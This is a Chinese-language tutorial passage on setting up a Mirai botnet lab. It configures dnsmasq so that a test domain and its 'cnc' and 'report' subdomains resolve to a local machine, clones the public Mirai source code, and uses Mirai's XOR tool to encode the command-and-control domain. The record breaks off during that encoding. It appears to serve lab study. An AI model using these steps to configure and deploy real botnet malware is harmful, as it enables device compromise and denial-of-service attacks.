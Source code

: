 经过比较感觉dnsmasq更加简单一些，这里详细介绍一下使用dnsmasq配置DNS<br>

安装命令<br>
```
sudo apt install dnsmasq
```
修改配置文件，我使用的域名为test.me
```
vim /etc/dnsmasq.conf

resolv-file=/etc/resolv.conf  #设置resolv目录
strict-order  #严格按照从上到下选择dns
listen-address=192.168.3.36  #这个ip是我的kali机器，如果只想本地访问可以改为127.0.0.1

address=/test.me/192.168.3.34  #这里将test.me指向192.168.3.34
address=/cnc.test.me/192.168.3.34
address=/report.test.me/192.168.3.34

server=8.8.8.8  #设置google dns为第一指向dns
server=114.114.114.114
```
重启服务
```
service dnsmasq restart
```

验证是否搭建成功,在kali和ubuntu上使用nslook命令，ubuntu测试前记得重新配置一下dns<br>
```
nslookup 
> test.me
Server:         192.168.3.36
Address:        192.168.3.36#53

Name:   test.me
Address: 192.168.3.34
> cnc.test.me
Server:         192.168.3.36
Address:        192.168.3.36#53

Name:   cnc.test.me
Address: 192.168.3.34
> report.test.me
Server:         192.168.3.36
Address:        192.168.3.36#53

Name:   report.test.me
Address: 192.168.3.34
```


#### 对源码进行编译和参数配置
下载Mirai平台<br>
```
git clone https://github.com/jgamblin/Mirai-Source-Code
```
编译enc可执行文件，用于地址异或<br>
```
root@ubuntu:/home/test/Desktop# cd Mirai-Source-Code/mirai/tools/
gcc enc.c -o enc.out
```
配置cnc文件,这里使用test.me域名<br>
我曾经使用过纯IP配置cnc，同样提示无法解析域名，这个问题目前我还没有明白是什么原因造成。<br>
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# ./enc.out string test.me
XOR'ing 8 bytes of data...
\x56\x47\x51\x56\x0C\x4F\x47\x22
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# ./enc.out string cnc.test.me
XOR'ing 12 bytes of data...
```